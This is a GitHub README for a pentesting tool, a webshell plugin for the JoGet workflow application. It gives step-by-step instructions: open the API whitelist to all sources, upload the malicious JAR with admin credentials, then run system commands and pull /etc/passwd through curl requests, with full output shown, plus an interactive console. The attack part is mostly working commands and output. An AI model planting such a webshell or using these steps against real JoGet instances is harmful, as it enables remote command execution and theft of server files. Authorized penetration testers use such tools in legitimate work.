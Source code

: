 # JoGet webshell plugin for RCE

<p align="center">
  A webshell plugin and interactive shell for pentesting JoGet application.
  <br>
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/JoGet-plugin-webshell">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
  <br>
</p>

## Features

 - [x] Webshell plugin for JoGet.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the JoGet instance.

### Step 1: Whitelist your IP in the API

First of all, you will need to whitelist your IP in the API (or put `*` to match every source IP). This will allow you to perform requests on the `/jw/web/json` endpoint.

 - **API Domain Whitelist**: `*`
 - **API IP Whitelist**: `*`

![](./.github/ip_whitelist_api.png)

### Step 2: Upload the webshell plugin

Go to "Manage plugins" page, at http://127.0.0.1:8000/jw/web/console/setting/plugin, and click on "Upload plugin":

![](./.github/manage_plugins_interface.png)

Then choose the JAR file of the webshell plugin and click on "Upload":

![](./.github/upload_a_plugin.png)

### Step 3.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=exec&cmd=id"
{"stdout":"uid=1000(tomcat) gid=1000(tomcat) groups=1000(tomcat),0(root),27(sudo)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 3.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:8000/jw/web/json/plugin/podalirius.WebShell/service' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
tomcat:x:1000:1000::/home/tomcat:/bin/sh
```

### Step 4: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/158264654-df612180-9de5-4b5b-b3a2-ad22ae05b889.mp4

## Development

If you need to compile this plugin, you can use the docker image provided in the [dev_env](./dev_env) folder. It recreates the [Joget Workflow Open Source](https://dev.joget.org/community/display/KBv6/Joget+Workflow+Open+Source) build environnement to build plugins.

Then if you need to test the plugin locally, you can start a JoGet instance with the official docker image like this:

```
docker run -d -p 8000:8080 --rm docker.io/jogetworkflow/joget-community
```

Don't forget to check `docker logs -f <container_id>` to see logs of the running JoGet instance. This is really useful for debugging, especially if you encounter a "[Missing requirement error while importing a plugin](./docs/Missing-requirement-error-while-importing-a-plugin.md)".

## References

 - https://dev.joget.org/community/display/KBv6/Guideline+for+developing+a+plugin

 - https://dev.joget.org/community/display/KBv6/Web+Service+Plugin

 - https://dev.joget.org/community/display/KBv4/Implement+Web+Service+or+Servlet+with+Plugin
 

 - **Useful links for debugging module import**
    + https://thecarlhall.wordpress.com/2012/01/19/understanding-the-unresolved-constraint-missing-resource-message-from-apache-felix/
    + https://thecarlhall.wordpress.com/2012/07/11/understanding-the-unresolved-constraint-missing-requirement-message-from-apache-felix-pt-2/ 
